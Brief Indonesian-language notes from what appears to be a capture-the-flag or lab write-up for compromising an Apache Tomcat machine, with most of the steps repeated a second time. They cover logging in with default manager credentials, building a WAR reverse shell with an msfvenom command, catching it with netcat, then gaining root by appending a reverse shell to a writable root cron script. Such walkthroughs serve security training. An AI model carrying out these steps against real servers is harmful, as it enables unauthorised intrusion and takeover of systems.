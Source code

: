 # boot:
1. scan nmap ada apache tom sama jsp apa gitu -> fuzz ada host-manager, gagal dulu passwd nya nanti nemu default creds
2. login default creds cek manager sama host-manager -> ada secret dir
3. cek di manager -> ada fitur upload war extension nya upload revshell
4. msfvenom -p java/jsp_shell__tcp LHOST=ip LPORT=6060 -f war > exp.war -> p payload f format
5. nc in  -> klaim user flag


# PE :
1. pake linpeas -> ternyata cron job id.sh itu jalan terus sebagai root dan writeable
2. tambahin revshell di scriptnya -> nc aja tunggu terus -> nanti root sendiri
3. klaim root1. scan nmap ada apache tom sama jsp apa gitu -> fuzz ada host-manager, gagal dulu passwd nya nanti nemu default creds
2. login default creds cek manager sama host-manager -> ada secret dir
3. cek di manager -> ada fitur upload war extension nya upload revshell
4. msfvenom -p java/jsp_shell__tcp LHOST=ip LPORT=6060 -f war > exp.war -> p payload f format
5. nc in  -> klaim user flag


# PE :
1. pake linpeas -> ternyata cron job id.sh itu jalan terus sebagai root dan writeable
2. tambahin revshell di scriptnya -> nc aja tunggu terus -> nanti root sendiri
3. klaim root
